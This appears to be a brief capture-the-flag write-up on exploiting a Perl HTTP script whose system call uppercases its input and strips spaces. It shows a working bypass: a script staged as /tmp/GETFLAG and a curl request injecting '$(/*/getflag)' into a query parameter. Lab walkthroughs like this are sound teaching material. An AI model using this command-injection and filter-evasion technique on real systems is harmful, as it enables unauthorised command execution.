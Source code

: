 In the home directory you will find a perl script, assuming that this script is runing in the background, we will have an http server with a system call that we can exploit, the only problem is that the parameter given to this system call is previously modified, making all characters uppercase, and triming all the spaces, so one work around can be this:

``` shell
echo "getflag > /tmp/flag" > /tmp/GETFLAG;
chmod +x /tmp/GETFLAG;
curl http://localhost:4646/?x='$(/*/getflag)'&y='';
```

``` shell
cat /tmp/flag;
```

